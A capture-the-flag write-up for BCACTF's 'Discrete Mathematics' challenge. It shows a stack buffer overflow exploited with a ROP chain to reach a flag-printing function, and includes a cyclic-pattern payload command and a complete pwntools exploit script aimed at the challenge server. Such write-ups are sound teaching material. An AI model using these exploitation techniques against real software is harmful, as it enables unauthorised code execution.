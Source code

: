 ```yaml
---
description: 'Buffer overflow, with a ROP chain.'
---
```


# Discrete Mathematics

The same challenge, but this time we need ot build a ROP chain.

```c
void quiz() {
    FILE *fp = fopen("flag.txt", "r");
    char flag[100];

    if (fp == NULL) {
        puts("Sorry, all my stuff's a mess.");
        puts("I'll get around to grading your quiz sometime.");
        puts("[If you are seeing this on the remote server, please contact admin].");
        exit(1);
    }

    fgets(flag, sizeof(flag), fp);

    if (knows_logic && knows_algebra && knows_functions) {
        puts("Alright, you passed this quiz.");
        puts("Here's your prize:");
        puts(flag);
    } else {
        puts("Not there yet...");
        puts("Study some more!");
    }
}
```

We can't just jump to `quiz()` directly, since we need to make `knows_logic`, `knows_algebra`, and `knows_functions` True. Each of these variables are only set within their corresponding functions: `logic()`, `algebra()` and `functions()`.

If we build a ROP chain as follows, we can control the return addresses of subsequent returns.

![](../../.gitbook/assets/ca9b93eea7374b5dbe7aabe552e9d891.png)

Again, we will have to bypass the `strcmp()` check:

```c
if (strcmp(response, "i will get an A")) {
    puts("I'm sorry, but you obviously don't care about grades.");
    puts("Therefore, you aren't motivated enough to be in our class.");
    puts("Goodbye.");
    exit(1);
}
```

Prepare our cyclic pattern payload:

`python -c "print 'i will get an A' + '\x00' + 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A'" > ipt.txt`

![](../../.gitbook/assets/db81350822c74ff7af93f3095c2313bc.png)

We find that the offset is 56.

![](../../.gitbook/assets/57f92a2eb43743b39b456f6ab1e3f39b.png)

We find the function addresses:

* logic: 0x00401236
* algebra: 0x00401336
* functions: 0x0040144d
* quiz: 0x00401544

![](../../.gitbook/assets/68f6304d67a84ca09bb53d86377064c0.png)

```python
from pwn import *

logic = 0x00401236
algebra = 0x00401336
functions = 0x0040144d
quiz = 0x00401544

logic = p64(logic)
algebra = p64(algebra)
functions = p64(functions)
quiz = p64(quiz)

offset = 56
payload = b"i will get an A"
payload += b"\x00"

# Build the ROP chain
payload += b"A" * offset
payload += quiz
payload += logic
payload += quiz
payload += algebra
payload += quiz
payload += functions
payload += quiz
print(payload)

with open('payload', 'wb') as f:
    f.write(payload)

conn = remote('bin.bcactf.com', 49160)

print(conn.recv())
print(conn.recv())

print("\nSending payload...")
conn.send(payload + b"\n")

print(conn.recv())

conn.interactive()
conn.close()
```

Now, we get an interactive connection where we will first jump to `logic()`, then `algebra()`, then `functions()`.

![](../../.gitbook/assets/9975f2cc912f4de5b22786b9a210de21.png)

We just have to figure out the appropriate values to pass the checks.

```c
void logic() {
    int p, q, r, s;

    printf("p: ");
    scanf("%d", &p);
    printf("q: ");
    scanf("%d", &q);
    printf("r: ");
    scanf("%d", &r);
    printf("s: ");
    scanf("%d", &s);

    knows_logic = (p || q || !r) && (!p || r || !s) && (q != s) && s;
}
```

So, from `(q != s) && s`, we know `s` must be 1, `q` must be 0.

Then, from `(p || q || !r) && (!p || r || !s)`, we have `(p || 0 || !r) && (!p || r || 0)`, which is `(p || !r) && (!p || r)`. Either `p = r = 0` or `p = r = 1` works.

```c
void algebra() {
    int x, y, z;

    printf("x: ");
    scanf("%d", &x);
    printf("y: ");
    scanf("%d", &y);
    printf("z: ");
    scanf("%d", &z);

    int eq1 = 5*x - 6*y + 3*z;
    int eq2 = 2*x + 5*y - 7*z;
    int eq3 = 4*x + 8*y + 8*z;

    knows_algebra = (eq1 == 153) && (eq2 == -163) && (eq3 == -28);
}
```

We can solve the simultaneous equations to get:

* x = 3
* y = -17
* z = 12

```c
void functions() {
    int a, b, c;

    printf("a: ");
    scanf("%d", &a);
    printf("b: ");
    scanf("%d", &b);
    printf("c: ");
    scanf("%d", &c);

    int vertex_x = -b / (2*a);
    int vertex_y = a * vertex_x * vertex_x + b * vertex_x + c;
    int discriminant = b * b - 4 * a * c;

    knows_functions = (vertex_x == 2) && (vertex_y == -2) && (discriminant == 16);
}
```

The values seemed pretty small, so a bruteforce script easily gets the values.

```python
for a in range(-10, 10):
    if a == 0:
        continue
    for b in range(-10, 10):
        for c in range(-10, 10):
            vertex_x = -b / (2*a)
            vertex_y = a * vertex_x * vertex_x + b * vertex_x + c
            discriminant = b * b - 4 * a * c

            if (vertex_x == 2) and (vertex_y == -2) and (discriminant == 16):
                print(a, b, c)
                break
```

We have:

* a = 2
* b = -8
* c = 6

Plugging these values in, we get the flag.

![](../../.gitbook/assets/3ee6e1aae3ab4dfa9930aaf3ea3820c7.png)

